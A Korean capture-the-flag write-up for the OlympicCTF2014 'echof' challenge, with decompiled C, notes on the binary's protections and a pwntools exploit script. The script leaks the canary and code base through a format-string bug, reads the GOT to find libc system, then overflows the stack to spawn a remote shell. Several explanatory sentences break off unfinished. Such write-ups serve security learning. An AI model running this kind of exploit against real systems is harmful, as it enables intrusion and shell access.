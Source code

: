 ```yaml
---
layout: post
title: Writeup - echof (from OlympicCTF2014)
---
```

# echof

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int *result; // eax
  int *v4; // eax
  signed int i; // [esp+30h] [ebp-110h]
  size_t v6; // [esp+34h] [ebp-10Ch]
  int *mm; // [esp+38h] [ebp-108h]
  char buf; // [esp+3Ch] [ebp-104h]
  unsigned int v9; // [esp+13Ch] [ebp-4h]

  v9 = __readgsdword(0x14u);
  puts("pw?");
  fflush(stdout);
  read(0, &buf, 8u);
  result = (int *)memcmp(&buf, "letmein\n", 8u);
  if ( !result )
  {
    for ( i = 0; i <= 15; ++i )
    {
      puts("msg?");
      fflush(stdout);
      bzero(&buf, 0x100u);
      read(0, &buf, 0x80u);
      v6 = strlen(&buf);
      if ( strchr(&buf, 'n') )
        return puts("i hate this symbol!");
      mm = (int *)mmap(0x11111000, 0x1000, 3, 50, -1, 0);
      if ( mm == (int *)-1 || !mm )
      {
        perror("mmap");
        exit(-1);
      }
      v4 = mm + 33;
      *v4 = 'ruoY';
      v4[1] = 'sem ';
      v4[2] = 'egas';
      v4[3] = 'd%( ';
      v4[4] = 'tyb ';
      v4[5] = ':)se';
      v4[6] = '\ns% ';
      *((_BYTE *)v4 + 28) = 0;
      mm[32] = (int)(mm + 33);
      strncpy((char *)mm, &buf, 0x80u);
      *((_BYTE *)mm + v6) = 0;
      sprintf(&buf, (const char *)mm[32], v6, mm);
      puts(&buf);
      fflush(stdout);
      result = (int *)munmap(mm, 0x1000u);
    }
  }
  return (int)result;
}
```
## 관찰
NX, ASLR, PIE, stack canary, full RELRO가 모두 걸려있는 바이너리이다.

buf를 0x80 바이트로 꽉꽉 채워 `mm[32]`의 least significant byte를 0으로 덮어씌우면 원래 `mm[33]`을 가리키던 주소가 `mm[0]`로 바뀌어 마음대로 FSB를 할 수 있게 된다. buf가 널널하므로 쉽게쉽게 FSB를 사용할 수 있다.

ROP를 하기 위해서
1.  libc system 함수와 /bin/sh string의 위치
2.  stack canary 값
을 알아야 한다.

1을 얻기 위해서는 FSB를 통해 got의 값을 아무거나 읽으면 된다. 하지만 PIE가 적용되어 있어 got의 위치가 매번 바뀌는데, 이는 return address를 선제적으로 얻어내어  
Full RELRO가 적용되어 있으므로 got overwrite가 불가능하다. 따라서 ROP를 사용하는데, 이를 위해서는 stack canary leak이 필요하다. FSB를 통해 쉽게 해결할 수 있는 부분이다.

PIE가 적용되어 있으므로 libc를

## 풀이
```python
from pwn import * 

#p = process("./echof")
p = remote("remote.goatskin.kr", 49281)
context.log_level = "debug"

# Step 1: leak code offset &
payload1 = "%80$x|%78$x|"
payload1 += (128 - len(payload1))*"A"

p.send("letmein\n")
p.send(payload1)
p.recvuntil("msg?\n")
p_ret_raw = p.recvuntil("|")[:-1]
canary_raw = p.recvuntil("|")[:-1]
p_ret = int(p_ret_raw, 16)
canary = int(canary_raw, 16)
base_code = p_ret - 0x840

log.info("canary: " + hex(canary))

# Step 2: read got w/ FSB
offset_got_lsm = 0x1FD8
payload2 = p32(base_code + offset_got_lsm) + "%14$s|"
payload2 += (128 - len(payload2))*"A"
p.send(payload2)
p.recvuntil("msg?\n")
p_lsm_raw = p.recvuntil("|")[4:8]
p_lsm = u32(p_lsm_raw)

p_system = p_lsm + 0x22c70
p_sh = p_lsm + 0x147133
log.info("p_lsm: " + hex(p_lsm))

# Step 3: bof

payload3 = "%256c" + "%78$c" + p32(canary)[1:]
payload3 += p32(p_system)*5 + p32(p_sh)
payload3 += (128 - len(payload3))*"A"
p.send(payload3)

context.log_level = "info"
p.interactive()
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2Nzg4MTc4NDYsLTE0MDk5NDI0MTYsLT
IxMjgwMzIyMzJdfQ==
-->